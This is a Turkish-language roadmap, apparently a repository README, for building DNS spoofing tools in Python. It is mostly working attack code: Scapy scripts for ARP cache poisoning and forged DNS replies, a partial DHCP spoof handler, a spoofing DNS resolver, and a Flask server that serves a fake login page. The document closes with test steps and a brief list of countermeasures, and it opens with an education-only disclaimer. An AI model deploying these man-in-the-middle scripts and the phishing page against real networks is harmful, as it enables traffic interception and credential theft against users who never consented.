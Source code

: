 #  ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

##  Giriş

Bu yol haritası, Kali Linux’ta bulunan DNS spoofing araçlarından (Ettercap, Dnsspoof, DNSChef, Bettercap, DDSpoof ve SET) esinlenerek, Python kullanılarak bu özelliklerin nasıl geliştirileceği ve test edileceğine dair detaylı bir rehber sunar.  
**Önemli Uyarı:** Bu bilgiler yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımı yasa dışı ve etik dışıdır. Herhangi bir ağda veya sistemde test yapmadan önce açık izin almanız zorunludur.

---



- **Python 3.x**
- **Kütüphaneler:**
  - `scapy`: Ağ manipülasyonu (→ `pip install scapy`)
  - `dnslib`: DNS sunucusu geliştirme (→ `pip install dnslib`)
  - `flask`: Sahte web sunucusu (→ `pip install flask`)
- **Gerekli Bilgi:**
  - Python temelleri
  - IP, ARP, DNS, DHCP protokolleri
  - Linux terminal kullanımı
- **Araçlar:** VirtualBox veya benzeri sanallaştırma yazılımı

---

##  Test Ortamını Kurma

1. **VirtualBox kurulumu**
2. **Sanal Makineler:**
   - Saldırgan VM: Kali Linux veya benzeri
   - Kurban VM: Windows / Linux
3. **Ağ yapılandırması:** Host-only ya da internal network kullanın

---

## Temel Bileşenlerin Geliştirilmesi

###  ARP Spoofing Betiği

```python
from scapy.all import *
import time

def get_mac(ip):
    ans, _ = arping(ip)
    for s, r in ans:
        return r[Ether].src

def arp_spoof(target_ip, gateway_ip):
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    while True:
        send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip), verbose=0)
        send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip), verbose=0)
        time.sleep(2)

arp_spoof("192.168.1.10", "192.168.1.1")
```
## DNS Spoofing Betiği
```
from scapy.all import *

def dns_spoof(packet):
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0:
        spoofed_ip = "192.168.1.100"
        spoofed_packet = IP(dst=packet[IP].src, src=packet[IP].dst)/\
                         UDP(dport=packet[UDP].sport, sport=53)/\
                         DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                             an=DNSRR(name=packet[DNS].qd.qname, ttl=10, rdata=spoofed_ip))
        send(spoofed_packet, verbose=0)

sniff(filter="udp port 53", prn=dns_spoof)
```
##  DHCP Manipülasyon Betiği
```
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:
        fake_dns = "192.168.1.100"
        # Sahte yanıt oluşturulabilir, örnek yapı:
        # send(dhcp_offer)
        
sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)

```
## Sahte Web Sunucusu (Flask) Test amaçlı kullanmak için 
```
pip install flask
python
Kopyala
Düzenle
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```
## Seçmeli DNS Spoofing (DNS Proxy)

```
from dnslib import *
from dnslib.server import DNSServer, BaseResolver

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()

```
## Entegre MITM Betiği
ARP + DNS Spoofing birleşik bir yapı haline getirilebilir.
Argüman desteği veya yapılandırma dosyası ile özelleştirilebilir.
## Test Yöntemleri
Özellik	Test Adımı
ARP Spoofing	arp -a ile ağ geçidinin MAC adresini kontrol edin
DNS Spoofing	nslookup example.com komutu sahte IP döndürmeli
DHCP Spoofing	ipconfig /renew sonrası DNS adresi değişmeli
Web Sunucusu	Kurban, sahte web sayfasını görüntüleyebilmeli

##  Karşı Önlemler
Statik ARP tabloları

DNSSEC kullanımı

HTTPS zorunluluğu

VPN veya segment izolasyonu

İzole test ağı kullanımı

